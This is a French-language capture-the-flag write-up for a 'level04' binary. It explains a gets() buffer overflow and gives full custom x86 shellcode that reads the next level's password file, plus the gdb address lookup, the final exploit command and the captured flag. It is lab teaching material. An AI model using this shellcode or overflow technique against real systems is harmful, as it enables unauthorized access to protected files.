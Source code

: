 ## level04
- Examinons le [code source désassemblé](/level04/source.c) :
    - À première vue, la faille semble évidente : le binaire utilise [`gets`](https://linux.die.net/man/3/gets), qui ne vérifie pas à l'avance le nombre de caractères reçus (il est donc très facile de faire un *buffer overflow*).
    - La ligne précédente nous incite en plus à utiliser un *shellcode*. Mais contrairement au [level01](/level01/Ressources/README.md), on ne peut pas simplement lancer un `execve("/bin/sh")`. En effet, notre *shellcode* sera considéré comme un processus enfant et l'on entre donc dans la condition `else` du main. Et si notre processus enfant utilise l'appel système numéro 11 ([`execve`](http://asm.sourceforge.net/syscall.html#11)), alors le processus sera immédiatement stoppé (`kill` avec signal `SIGKILL`).
- Il nous faudra donc créer notre propre [*shellcode*](/level04/Ressources/shellcode.s), pour lire le fichier `/home/users/level05/.pass`.
    - Nous utilisons des [appels systèmes](http://shell-storm.org/shellcode/files/syscalls.html) avec la syntaxe [`int $0x80`](https://en.wikibooks.org/wiki/X86_Assembly/Interfacing_with_Linux#int_$0x80).
    - Pour obtenir les valeurs hexadécimales de notre *shellcode*, il reste à le compiler (`gcc -m32 shellcode.s -o shellcode`) et examiner le `main ` (`radare2 -AAA shellcode` puis `pdf@main`).
    - Une fois ces valeurs obtenues, nous plaçons le *shellcode* dans l'environnement : `export SHELLCODE=$(python -c 'print "\x90"*1024 + "\x6a\x73\x68\x2e\x70\x61\x73\x68\x6c\x30\x35\x2f\x68\x6c\x65\x76\x65\x68\x65\x72\x73\x2f\x68\x65\x2f\x75\x73\x68\x2f\x68\x6f\x6d\xb0\x05\x89\xe3\x31\xc9\x31\xd2\xcd\x80\x89\xc3\xb0\x03\x83\xec\x2a\x89\xe1\xb2\x2a\xcd\x80\xb0\x04\xb3\x01\x89\xe1\xb2\x2a\xcd\x80\xb0\x01\xcd\x80"')`
    - Nous retrouvons l'adresse de cette variable dans l'environnement avec `gdb` et la commande `x/10s *((char **)environ)` => `0xffffd9b0`.
    - Comme il peut y avoir une différence dans l'environnement lors de l'exécution hors de `gdb`, nous allons décaler cette adresse de 256 octets => `0xffffdab0`. Cela n'a pas d'impact sur le fonctionnement de notre *shellcode* puisque celui est précédé de 1024 octets de `nop`(https://en.wikipedia.org/wiki/NOP_(code)).
- Notre exploit est donc `python -c 'print "\x90"*156 + "\xb0\xda\xff\xff"' | ./level04`, ce qui nous permet d'obtenir le flag `3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN`